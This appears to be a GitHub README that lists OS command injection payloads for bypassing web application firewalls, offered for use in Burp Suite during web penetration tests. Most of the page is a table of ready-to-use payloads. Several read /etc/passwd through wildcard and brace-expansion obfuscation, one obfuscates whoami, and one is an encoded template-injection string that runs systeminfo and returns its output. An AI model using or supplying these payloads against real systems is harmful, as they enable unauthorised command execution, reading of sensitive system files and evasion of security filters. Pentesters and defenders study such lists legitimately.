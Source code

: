 # Bypass-WAF-OS-command-injection
In todays Web Penetration Testing you must have good injection payloads to fasten your engagements.<br>
You can use this on BurpSuite. Method below can be use on Web Penetration Testing.
<br>
<table border="1">
    <tr>
        <th>OS Command Injection Bypassing WAF </th>
    </tr>
    <tr>
        <td>1. cat /e*c/p*s*d</td>
    </tr>
    <tr>
        <td>2. cat /e[tv]c/p[aeiou]*d</td>
    </tr>
    <tr>
        <td>3. cat /e??/p????d</td>
    </tr>
    <tr>
        <td>4. cat /et${FOO:-c}/pa${BAR:-sswd}</td>
    </tr>
    <tr>
        <td>5. wh$()oami or whoam$(echo+i) or who'a'm(echo+i)</td>
    </tr>
    <tr>
        <td>6. " /?n=%0A%&index=%00&&cmd=systeminfo&search=%25xxx%url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} " put this without quotes, this will print the info in burpsuite response</td>
    </tr>
</table>

Another actual good reference:<br>
1. https://medium.com/@themiddleblue/waf-evasion-techniques-718026d693d8<br>
2. https://infosecwriteups.com/alibaba-cloud-waf-command-injection-bypass-via-wildcard-payload-in-all-1-462-built-in-rule-set-989b75db6e2f

